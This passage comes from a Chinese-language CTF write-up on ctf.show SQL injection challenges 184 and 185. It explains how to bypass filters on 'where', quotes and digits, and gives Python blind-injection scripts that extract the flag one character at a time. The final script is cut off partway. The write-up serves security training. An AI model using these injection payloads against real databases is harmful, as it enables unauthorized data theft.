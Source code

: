 ```python
      break
```

## web 184 

过滤了where，可以用group by having。过滤了引号可以用16进制

通过pass字段分组，依次比较每一位字符的16进制，盲注出整个flag

```python
#author:yu22x
import requests
import string
url="http://e48a8069-93a1-4f54-92fd-98bf6d2f2e64.challenge.ctf.show/select-waf.php"
s=string.digits+string.ascii_lowercase+"{_-}"
def asc2hex(s):
    a1 = ''
    a2 = ''
    for i in s:
        a1+=hex(ord(i))
    a2 = a1.replace("0x","")
    return a2
flag=''
for i in range(1,45):
  print(i)
  for j in s:
    d = asc2hex(f'^ctfshow{flag+j}')
    data={
    'tableName':f' ctfshow_user group by pass having pass regexp(0x{d})'
    }
    #print(data)
    r=requests.post(url,data=data)
    #print(r.text)
    if("user_count = 1"  in r.text):
      flag+=j
      print(flag)
      break
```

## web 185

过滤了数字，可以使用布尔值构造数字，例如(true+true)=2。最后再用concat连接

```sql
mysql> select (true+true)=2;
+---------------+
| (true+true)=2 |
+---------------+
|             1 |
+---------------+
```

```python
#author:yu22x
import requests
import string
url="http://cc981786-8e5b-4934-a89c-86b6bc950e7d.challenge.ctf.show/select-waf.php"
s='0123456789abcdef-{}'
def convert(strs):
  t='concat('
  for s in strs:
    t+= 'char(true'+'+true'*(ord(s)-1)+'),'
  return t[:-1]+")"
flag=''
for i in range(1,45):
```
